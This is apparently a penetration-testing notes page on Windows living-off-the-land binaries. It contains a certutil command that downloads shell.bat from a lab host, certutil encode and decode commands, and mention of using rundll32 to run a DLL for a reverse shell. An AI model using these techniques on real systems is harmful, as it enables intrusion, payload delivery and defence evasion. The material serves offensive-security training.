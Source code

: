 # Miscellaneous Techniques

***

### <mark style="color:red;">Living Off The Land Binaries and Scripts (LOLBAS)</mark>

The [LOLBAS project](https://lolbas-project.github.io/)&#x20;

> Le projet **LOLBAS** (Living Off The Land Binaries And Scripts) documente des **binaires**, **scripts** et **bibliothèques** pouvant être utilisés pour des techniques de **Living Off The Land** sur des systèmes Windows.

<table data-full-width="true"><thead><tr><th></th><th></th><th></th></tr></thead><tbody><tr><td>Code execution</td><td>Code compilation</td><td>File transfers</td></tr><tr><td>Persistence</td><td>UAC bypass</td><td>Credential theft</td></tr><tr><td>Dumping process memory</td><td>Keylogging</td><td>Evasion</td></tr><tr><td>DLL hijacking</td><td></td><td></td></tr></tbody></table>

<mark style="color:green;">**Transferring File with Certutil**</mark>

```powershell-session
certutil.exe -urlcache -split -f http://10.10.14.3:8080/shell.bat shell.bat
```

<mark style="color:green;">**Encoding File with Certutil**</mark>

```cmd-session
certutil -encode file1 encodedfile
```

<mark style="color:green;">**Decoding File with Certutil**</mark>

```cmd-session
certutil -decode encodedfile file2
```

A binary such as [rundll32.exe](https://lolbas-project.github.io/lolbas/Binaries/Rundll32/) can be used to execute a DLL file.&#x20;

We could use this to obtain a reverse shell by executing a .DLL file that we either download onto the remote host or host ourselves on an SMB share.

***
